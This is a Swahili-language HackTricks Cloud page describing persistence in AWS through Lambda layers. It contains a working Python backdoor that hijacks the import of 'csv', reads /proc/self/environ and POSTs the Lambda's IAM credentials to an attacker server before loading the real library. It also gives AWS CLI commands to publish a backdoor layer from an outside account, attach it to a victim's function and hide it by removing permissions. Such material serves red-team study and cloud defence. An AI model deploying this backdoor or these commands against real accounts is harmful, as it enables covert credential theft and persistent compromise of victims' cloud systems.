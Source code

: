 # AWS - Uthabiti wa Lambda Layers

<details>

<summary><strong>Jifunze kuhusu udukuzi wa AWS kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Mtaalam wa Timu Nyekundu ya AWS ya HackTricks)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikitangazwa kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA KUJIUNGA**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) ya kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Shiriki mbinu zako za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>

## Lambda Layers

Tabaka la Lambda ni faili ya .zip ambayo **inaweza kuwa na msimbo wa ziada** au maudhui mengine. Tabaka inaweza kuwa na maktaba, [muda wa desturi](https://docs.aws.amazon.com/lambda/latest/dg/runtimes-custom.html), data, au faili za usanidi.

Inawezekana kuongeza hadi **tabaka tano kwa kila kazi**. Unapojumuisha tabaka katika kazi, **maudhui yanaondolewa kwenye saraka ya `/opt`** katika mazingira ya utekelezaji.

Kwa **chaguo-msingi**, **tabaka** unazounda ni **binafsi** kwa akaunti yako ya AWS. Unaweza **kuchagua kushiriki** tabaka na akaunti zingine au **kufanya** tabaka **kuwa ya umma**. Ikiwa kazi zako zinatumia tabaka ambayo akaunti tofauti imetoa, kazi zako zinaweza **kuendelea kutumia toleo la tabaka baada ya kufutwa, au baada ya ruhusa yako ya kupata tabaka kufutwa**. Walakini, huwezi kuunda kazi mpya au kusasisha kazi zinazotumia toleo lililofutwa la tabaka.

Kazi zilizosambazwa kama picha ya kontena hazitumii tabaka. Badala yake, unapakia muda wako unaopendelea, maktaba, na mahitaji mengine ndani ya picha ya kontena unapojenga picha.

### Njia ya kupakia Python

Njia ya kupakia ambayo Python itatumia kwenye lambda ni ifuatayo:
```
['/var/task', '/opt/python/lib/python3.9/site-packages', '/opt/python', '/var/runtime', '/var/lang/lib/python39.zip', '/var/lang/lib/python3.9', '/var/lang/lib/python3.9/lib-dynload', '/var/lang/lib/python3.9/site-packages', '/opt/python/lib/python3.9/site-packages']
```
Angalia jinsi **nafasi ya pili** na ya tatu **inavyochukuliwa** na saraka ambapo **lambda layers** hufungua faili zao: **`/opt/python/lib/python3.9/site-packages`** na **`/opt/python`**

{% hint style="danger" %}
Ikiwa mshambuliaji amefanikiwa **kuweka mlango nyuma** kwenye **lambda layer** iliyotumiwa au **kuongeza moja** ambayo itatekeleza **mimba ya nambari inapopakiwa maktaba ya kawaida**, ataweza kutekeleza nambari yenye nia mbaya kila wakati lambda inaitwa.
{% endhint %}

Kwa hivyo, mahitaji ni:

* **Angalia maktaba** ambazo zinapakiwa na nambari ya waathiriwa
* Unda **maktaba ya proksi na lambda layers** ambayo itatekeleza nambari ya desturi na **pakia maktaba ya asili**.

### Maktaba zilizopakiwa mapema

{% hint style="warning" %}
Nikichambua mbinu hii nilikutana na ugumu: Baadhi ya maktaba tayari zimepakuliwa katika muda wa python wakati nambari yako inatekelezwa. Nilitarajia kupata vitu kama `os` au `sys`, lakini **hata maktaba ya `json` ilipakiwa**.\
Ili kutumia mbinu hii ya uthabiti, nambari inahitaji **kupakia maktaba mpya ambayo haijapakiwa** wakati nambari inatekelezwa.
{% endhint %}

Kwa nambari ya python kama hii, ni rahisi kupata **orodha ya maktaba zilizopakiwa mapema** ndani ya muda wa python kwenye lambda:
```python
import sys

def lambda_handler(event, context):
return {
'statusCode': 200,
'body': str(sys.modules.keys())
}
```
Na hii ni **orodha** (hakikisha maktaba kama vile `os` au `json` tayari zipo)
```
'sys', 'builtins', '_frozen_importlib', '_imp', '_thread', '_warnings', '_weakref', '_io', 'marshal', 'posix', '_frozen_importlib_external', 'time', 'zipimport', '_codecs', 'codecs', 'encodings.aliases', 'encodings', 'encodings.utf_8', '_signal', 'encodings.latin_1', '_abc', 'abc', 'io', '__main__', '_stat', 'stat', '_collections_abc', 'genericpath', 'posixpath', 'os.path', 'os', '_sitebuiltins', 'pwd', '_locale', '_bootlocale', 'site', 'types', 'enum', '_sre', 'sre_constants', 'sre_parse', 'sre_compile', '_heapq', 'heapq', 'itertools', 'keyword', '_operator', 'operator', 'reprlib', '_collections', 'collections', '_functools', 'functools', 'copyreg', 're', '_json', 'json.scanner', 'json.decoder', 'json.encoder', 'json', 'token', 'tokenize', 'linecache', 'traceback', 'warnings', '_weakrefset', 'weakref', 'collections.abc', '_string', 'string', 'threading', 'atexit', 'logging', 'awslambdaric', 'importlib._bootstrap', 'importlib._bootstrap_external', 'importlib', 'awslambdaric.lambda_context', 'http', 'email', 'email.errors', 'binascii', 'email.quoprimime', '_struct', 'struct', 'base64', 'email.base64mime', 'quopri', 'email.encoders', 'email.charset', 'email.header', 'math', '_bisect', 'bisect', '_random', '_sha512', 'random', '_socket', 'select', 'selectors', 'errno', 'array', 'socket', '_datetime', 'datetime', 'urllib', 'urllib.parse', 'locale', 'calendar', 'email._parseaddr', 'email.utils', 'email._policybase', 'email.feedparser', 'email.parser', 'uu', 'email._encoded_words', 'email.iterators', 'email.message', '_ssl', 'ssl', 'http.client', 'runtime_client', 'numbers', '_decimal', 'decimal', '__future__', 'simplejson.errors', 'simplejson.raw_json', 'simplejson.compat', 'simplejson._speedups', 'simplejson.scanner', 'simplejson.decoder', 'simplejson.encoder', 'simplejson', 'awslambdaric.lambda_runtime_exception', 'awslambdaric.lambda_runtime_marshaller', 'awslambdaric.lambda_runtime_client', 'awslambdaric.bootstrap', 'awslambdaric.__main__', 'lambda_function'
```
Na hii ni orodha ya **maktaba** ambazo **lambda inajumuisha kwa msingi**: [https://gist.github.com/gene1wood/4a052f39490fae00e0c3](https://gist.github.com/gene1wood/4a052f39490fae00e0c3)

### Kufanya Backdoor kwa Lambda Layer

Katika mfano huu, tufikirie kuwa kanuni iliyolengwa inaingiza **`csv`**. Tutakuwa **tukifanya backdoor kwa uingizaji wa maktaba ya `csv`**.

Kufanya hivyo, tutakuwa **tunaunda saraka ya csv** na faili ya **`__init__.py`** ndani yake kwenye njia ambayo inapakiwa na lambda: **`/opt/python/lib/python3.9/site-packages`**\
Kisha, wakati lambda inapotekelezwa na jaribu kupakia **csv**, faili yetu ya **`__init__.py` itapakiwa na kutekelezwa**.\
Faili hii lazima:

* Tekeleza mzigo wetu
* Pakia maktaba ya csv ya asili

Tunaweza kufanya yote hayo na:
```python
import sys
from urllib import request

with open("/proc/self/environ", "rb") as file:
url= "https://attacker13123344.com/" #Change this to your server
req = request.Request(url, data=file.read(), method="POST")
response = request.urlopen(req)

# Remove backdoor directory from path to load original library
del_path_dir = "/".join(__file__.split("/")[:-2])
sys.path.remove(del_path_dir)

# Remove backdoored loaded library from sys.modules
del sys.modules[__file__.split("/")[-2]]

# Load original library
import csv as _csv

sys.modules["csv"] = _csv
```
Kisha, tengeneza zip na nambari hii kwenye njia **`python/lib/python3.9/site-packages/__init__.py`** na uiweke kama safu ya lambda.

Unaweza kupata nambari hii kwenye [**https://github.com/carlospolop/LambdaLayerBackdoor**](https://github.com/carlospolop/LambdaLayerBackdoor)

Payload iliyoundwa itatuma IAM creds kwa seva **WAKATI WA KWANZA** inaitwa au **BAADA YA kurejesha** kontena ya lambda (mabadiliko ya nambari au lambda baridi), lakini **njia zingine** kama zifuatazo zinaweza pia kuingizwa:

{% content-ref url="../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md" %}
[aws-warm-lambda-persistence.md](../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md)
{% endcontent-ref %}

### Safu za Nje

Tambua kwamba inawezekana kutumia **safu za lambda kutoka kwenye akaunti za nje**. Zaidi ya hayo, lambda inaweza kutumia safu kutoka kwenye akaunti ya nje hata kama haina idhini.\
Pia kumbuka kwamba **idadi kubwa ya safu ambayo lambda inaweza kuwa nayo ni 5**.

Hivyo, ili kuboresha uwezo wa mbinu hii, mshambuliaji anaweza:

* Weka mlango wa nyuma kwenye safu iliyopo ya mtumiaji (hakuna kitu cha nje)
* **Tengeneza** **safu** katika **akaunti yake**, toa **akaunti ya mwathiriwa upatikanaji** wa kutumia safu, **sakinisha** **safu** kwenye Lambda ya mwathiriwa na **ondoa idhini**.
* **Lambda** itaendelea kuweza **kutumia safu** na mwathiriwa **hatakuwa na njia rahisi ya kudownload nambari za safu** (isipokuwa kupata rev shell ndani ya lambda)
* Mwathiriwa **hataona safu za nje** zilizotumiwa na **`aws lambda list-layers`**

{% code overflow="wrap" %}
```bash
# Upload backdoor layer
aws lambda publish-layer-version --layer-name "ExternalBackdoor" --zip-file file://backdoor.zip --compatible-architectures "x86_64" "arm64" --compatible-runtimes "python3.9" "python3.8" "python3.7" "python3.6"

# Give everyone access to the lambda layer
## Put the account number in --principal to give access only to an account
aws lambda add-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1 --principal '*' --action lambda:GetLayerVersion

## Add layer to victims Lambda

# Remove permissions
aws lambda remove-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1
```
{% endcode %}

<details>

<summary><strong>Jifunze kuhusu kudukua AWS kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Mtaalam wa Timu Nyekundu ya AWS ya HackTricks)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikitangazwa kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA KUJIUNGA**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) ya kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Shiriki mbinu zako za kudukua kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
